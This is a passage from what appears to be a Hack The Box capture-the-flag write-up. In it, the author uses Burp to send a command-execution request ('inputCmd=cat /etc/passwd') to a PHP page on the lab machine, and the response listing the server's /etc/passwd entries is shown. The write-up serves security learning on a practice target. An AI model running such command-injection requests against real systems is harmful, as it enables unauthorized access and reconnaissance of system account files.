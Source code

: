 ![](/images/hackthebox/ctf/15.png)
<br> I switched to burp to make things easier, I wanted to read `/etc/passwd` to know the users :
<br> Request :
```
POST /page.php HTTP/1.1
Host: ctf.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:60.0) Gecko/20100101 Firefox/60.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://ctf.htb/page.php
Content-Type: application/x-www-form-urlencoded
Content-Length: 42
Cookie: PHPSESSID=jj0dlekfhl2pggbo50bg4dkeu0
Connection: close
Upgrade-Insecure-Requests: 1

inputCmd=cat /etc/passwd&inputOTP=52447058

```
<br> Response :
```
HTTP/1.1 200 OK
Date: Fri, 19 Jul 2019 21:58:13 GMT
Server: Apache/2.4.6 (CentOS) OpenSSL/1.0.2k-fips mod_fcgid/2.3.9 PHP/5.4.16
X-Powered-By: PHP/5.4.16
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate, post-check=0, pre-check=0
Pragma: no-cache
Content-Length: 4005
Connection: close
Content-Type: text/html; charset=UTF-8

<!doctype html>
<html lang="en">
  <head>
        ----------------
         Removed Output
        ----------------
<pre>root:x:0:0:root:/root:/bin/bash
bin:x:1:1:bin:/bin:/sbin/nologin
daemon:x:2:2:daemon:/sbin:/sbin/nologin
adm:x:3:4:adm:/var/adm:/sbin/nologin
lp:x:4:7:lp:/var/spool/lpd:/sbin/nologin
sync:x:5:0:sync:/sbin:/bin/sync
shutdown:x:6:0:shutdown:/sbin:/sbin/shutdown
halt:x:7:0:halt:/sbin:/sbin/halt
mail:x:8:12:mail:/var/spool/mail:/sbin/nologin
operator:x:11:0:operator:/root:/sbin/nologin
games:x:12:100:games:/usr/games:/sbin/nologin
ftp:x:14:50:FTP User:/var/ftp:/sbin/nologin
nobody:x:99:99:Nobody:/:/sbin/nologin
systemd-network:x:192:192:systemd Network Management:/:/sbin/nologin
```